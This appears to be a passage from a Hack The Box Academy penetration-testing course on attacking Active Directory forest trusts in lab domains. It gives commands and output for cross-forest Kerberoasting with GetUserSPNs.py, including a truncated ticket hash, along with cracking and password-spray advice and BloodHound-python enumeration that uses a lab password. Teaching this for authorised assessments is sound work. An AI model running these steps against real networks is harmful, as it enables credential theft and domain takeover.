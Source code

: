 
As we saw in the previous section, it is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

## Cross-Forest Kerberoasting

#### Using GetUserSPNs.py

  Using GetUserSPNs.py

```shell-session
acd199218@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

#### Using the -request Flag

  Using the -request Flag

```shell-session
acd199218@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.

 Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.

---

## Hunting Foreign Group Membership with Bloodhound-python

As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

#### Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

  Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

```shell-session
acd199218@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Once this is in place, we can run the tool against the target domain as follows:

#### Running bloodhound-python Against INLANEFREIGHT.LOCAL

  Running bloodhound-python Against INLANEFREIGHT.LOCAL

```shell-session
acd199218@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

#### Compressing the File with zip -r

  Compressing the File with zip -r

```shell-session
acd199218@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

#### Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

  Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

```shell-session
acd199218@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

The `bloodhound-python` command will look similar to the previous one:

#### Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

  Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

```shell-session
acd199218@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

#### Viewing Dangerous Rights through BloodHound

![image](https://academy.hackthebox.com/storage/modules/143/foreign_membership.png)

---

## Closing Thoughts on Trusts

As seen in the past few sections, there are several ways to leverage domain trusts to gain additional access and even do an "end-around" and escalate privileges in our current domain. For example, we can take over a domain that our current domain has a trust with, and find password re-use across privileged accounts. We've seen how Domain Admin rights in a child domain nearly always mean we can escalate privileges and compromise the parent domain using the ExtraSids attack. Domain trusts are a rather large and complex topic. The primer in this module has given us the tools to enumerate trusts and perform some standard intra-forest and cross-forest attacks.